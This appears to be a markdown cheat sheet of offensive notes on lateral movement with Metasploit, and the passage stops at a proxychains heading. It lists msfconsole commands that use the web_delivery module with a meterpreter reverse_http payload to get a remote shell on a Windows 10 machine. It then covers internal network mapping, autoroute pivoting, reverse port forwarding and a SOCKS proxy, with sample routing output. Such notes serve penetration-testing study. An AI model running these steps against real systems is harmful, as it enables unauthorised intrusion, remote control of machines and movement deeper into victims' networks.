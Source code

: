 # lateral -movement

## metasploit

get a shell on windows 10 machine. here is an example:

On Kali:

```bash
msf6 > search web_delivery
msf6 > use 1
msf6 exploit(multi/script/web_delivery) > options
...
msf6 exploit(multi/script/web_delivery) > set lhost eth0
msf6 exploit(multi/script/web_delivery) > set lport 1337
msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > set target 2
msf6 exploit(multi/script/web_delivery) > exploit -j
```

On Windows:

```powershell
PS > <run whatever they tell you to run>
```

Back to Kali, enter session:

```bash
msf6 exploit(multi/script/web_delivery) > sessions
...
msf6 exploit(multi/script/web_delivery) > sessions -i 1
```

```bash
meterpreter > 
```

## basic network mapping using built-in windows commands

```
meterpreter > ipconfig
meterpreter > arp -a
```

## set up routes on metasploit

On msf5:

```bash
meterpreter > run autoroute -s <network-id/subnet>
```

```bash
meterpreter > run autoroute -p
```

```
IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```

On msf6:

```bash
meterpreter > run post/multi/manage/autoroute cmd=add SUBNET=<subnet> NETMASK=<netmask>
```

```bash
meterpreter > run post/multi/manage/autoroute cmd=add SUBNET=192.168.16.0 NETMASK=/24
```

```bash
meterpreter > run post/multi/manage/autoroute cmd=print
```

```
IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```

## more advanced network mapping

```
use auxiliary/scanner/portscan/tcp
```

## reverse port forwarding

```bash
meterpreter > portfwd add -R -p <local-listening-port> -l <port-to-forward-to> -L <IP-to-forward-to>  
```

```bash
meterpreter > portfwd add -R -p 1234 -l 443 -L 192.168.3.28
```

Run proxy server on Kali:

```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set srvport 9050
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > exploit -j
```

Run proxychains:

